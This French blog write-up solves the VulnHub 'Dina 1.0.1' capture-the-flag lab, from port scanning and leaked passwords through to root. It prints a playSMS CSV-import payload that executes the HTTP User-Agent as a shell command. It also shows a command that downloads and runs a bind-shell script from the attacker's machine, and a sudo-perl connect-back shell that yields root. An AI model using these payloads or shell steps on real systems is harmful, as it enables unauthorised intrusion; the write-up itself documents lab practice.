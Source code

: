 ```yaml
---
title: "Solution du CTF Dina: 1.0.1 de VulnHub"
tags: [CTF, VulnHub]
---
```


On continue les CTF de chez VulnHub avec le [Dina 1.0.1](https://www.vulnhub.com/entry/dina-101,200/) datant d'octobre 2017.  

#my secret webapp
-----------------

```
Nmap scan report for 192.168.1.48
Host is up (0.00036s latency).
Not shown: 65528 closed ports
PORT      STATE    SERVICE VERSION
80/tcp    open     http    Apache httpd 2.2.22 ((Ubuntu))
| http-robots.txt: 5 disallowed entries
|_/ange1 /angel1 /nothing /tmp /uploads
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Dina
23490/tcp filtered unknown
35921/tcp filtered unknown
55285/tcp filtered unknown
59929/tcp filtered unknown
59990/tcp filtered unknown
60771/tcp filtered unknown
```

Un seul port ouvert, un joli *It works* à la racine mais un *index.html* tout de même présent qui ne nous apporte rien de plus.  

On retrouve certains des dossiers présents dans le *robots.txt* avec un buster ainsi que des nouveaux :  

```
http://192.168.1.48/cgi-bin/ - HTTP 403 (240 bytes, gzip)
http://192.168.1.48/doc/ - HTTP 403 (236 bytes, gzip)
http://192.168.1.48/icons/ - HTTP 403 (238 bytes, gzip)
http://192.168.1.48/nothing/ - HTTP 200 (154 bytes, gzip)
http://192.168.1.48/secure/ - HTTP 200 (452 bytes, gzip) - Directory listing found
http://192.168.1.48/server-status/ - HTTP 403 (240 bytes, gzip)
http://192.168.1.48/tmp/ - HTTP 200 (395 bytes, gzip) - Directory listing found
http://192.168.1.48/uploads/ - HTTP 200 (397 bytes, gzip) - Directory listing found
```

Les dossiers *ange1*, *angel1*, *tmp* et *uploads* sont vides.  

Sous */nothing* la page HTML contient un commentaire avec des mots de passe :  

```html
<!--
#my secret pass
freedom
password
helloworld!
diana
iloveroot
-->
```

Ça devrait s'avérer utile...  

Justement, il y a une archive *backup.zip* sous */secure/* qui semble nécessiter un mot de passe :  

```console
$ unzip backup.zip
Archive:  backup.zip
   skipping: backup-cred.mp3         need PK compat. v5.1 (can do v4.6)

$ 7z x backup.zip

7-Zip [64] 9.20  Copyright (c) 1999-2010 Igor Pavlov  2010-11-18
p7zip Version 9.20 (locale=fr_FR.UTF-8,Utf16=on,HugeFiles=on,4 CPUs)

Processing archive: backup.zip

Extracting  backup-cred.mp3
Enter password (will not be echoed) :
```

Et en rentrant le mot de passe *freedom* on obtient un fichier *backup-cred.mp3* qui est en réalité un fichier texte :  

```
I am not toooo smart in computer .......dat the resoan i always choose easy password...with creds backup file....

uname: touhid
password: ******

url : /SecreTSMSgatwayLogin
```

./webpwn
--------

On se rend sur l'URL en question qui présente une mire de login. On parvient à si connecter avec *touhid* / *diana*.  

Il s'agit de [playSMS](https://playsms.org/) qui se défini comme un *Free and Open Source SMS Gateway*.  

Un tour rapide de l'application et je tique assez vite sur la fonction d'import de fichiers sur phonebook.  

Vu que c'est une vrai application je préfère regarder [la liste des vulnérabilités connues](https://www.cvedetails.com/vulnerability-list.php?vendor_id=2477&product_id=0&version_id=0&page=1&hasexp=0&opdos=0&opec=0&opov=0&opcsrf=0&opgpriv=0&opsqli=0&opxss=0&opdirt=0&opmemc=0&ophttprs=0&opbyp=0&opfileinc=0&opginf=0&cvssscoremin=0&cvssscoremax=0&year=0&month=0&cweid=0&order=1&trc=6&sha=8c0e7e35a77560b7cd811bce1ac0a63b8fcb526f) et, oh que le monde est petit, [un exploit écrit par l'auteur du challenge](https://www.exploit-db.com/exploits/42044/)... c'est un signe :)   

[Une vidéo de l'exploit](https://www.youtube.com/watch?v=KIB9sKQdEwE) est citée en référence et on voit qu'il faut uploader un CSV contenant du code PHP spécifique tout en ayant placé le code PHP à exécuter dans notre user-agent.  

Après avoir essayé l'un des switchers j'ai opté pour [celui-ci](https://chrome.google.com/webstore/detail/user-agent-switcher-for-g/ffhkkpnppgnfaobgihpdblnhmmbodake?utm_source=chrome-app-launcher-info-dialog) qui semble être le même que dans la vidéo.  

Le fichier CSV uploadé à cette forme (il doit respecter les colonnes du phonebook) :  

```php
"Name","Mobile","Email","Group Code","Tags"
"<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>",22,,,
```

Ce qui permet alors l'exécution de commandes :  

![Dina VulnHub playSMS interface](/assets/img/dina_playsms.png)

Comme pour le précédent challenge j'ai eu recours à [tcp\_pty\_bind.py](https://github.com/infodox/python-pty-shells/blob/master/tcp_pty_bind.py) qui s'avère bien pratique.  

Mon user-agent était alors `cd /tmp; wget http://192.168.1.6:8000/tcp_pty_bind.py; setsid python tcp_pty_bind.py&`  

```
$ ncat 192.168.1.48 31337 -v
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.1.48:31337.
www-data@Dina:/tmp$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

g0tr00t?
--------

Sympa ce petit shell mais un peu limité. Le shell définit pour *www-data* est bien */bin/sh*... mais il n'y a pas de sshd sur la machine... sniff.  

Il y a un utilisateur *touhid* qui pourrait être intéressant. Quelques fichiers dans son dossier Downloads mais ils ont le même hash md5 que ceux sous la racine web :-/   

À tout hasard, peut-on exécuter certaines commandes en tant que root ?   

```console
www-data@Dina:/tmp$ sudo -l
Matching Defaults entries for www-data on this host:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on this host:
    (ALL) NOPASSWD: /usr/bin/perl
```

Bingo !  

Plus qu'à récupérer ce fameux [dc.pl](https://pastebin.com/raw/bq6Zbpya) (pas de quoi me rajeunir) et l'exécuter avec sudo.  

```
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.1.48.
Ncat: Connection from 192.168.1.48:49435.
--== ConnectBack Backdoor Shell EDITED BY XORON TURK?SH HACKER ==--

--==Systeminfo==--
Linux Dina 3.2.0-23-generic-pae #36-Ubuntu SMP Tue Apr 10 22:19:09 UTC 2012 i686 i686 i386 GNU/Linux

--==Userinfo==--
uid=0(root) gid=0(root) groups=0(root)

--==Directory==--
/tmp

--==Shell==--
cd /root
ls
flag.txt
cat flag.txt
________                                                _________
\________\--------___       ___         ____----------/_________/
    \_______\----\\\\\\   //_ _ \\    //////-------/________/
        \______\----\\|| (( ~|~ )))  ||//------/________/
            \_____\---\\ ((\ = / ))) //----/_____/
                 \____\--\_)))  \ _)))---/____/
                       \__/  (((     (((_/
                          |  -)))  -  ))

root password is : hello@3210
easy one .....but hard to guess.....
but i think u dont need root password......
u already have root shelll....

CONGO.........
FLAG : 22d06624cd604a0626eb5a2992a6f2e6
```

Simple et rapide :p

*Published February 10 2018 at 16:00*
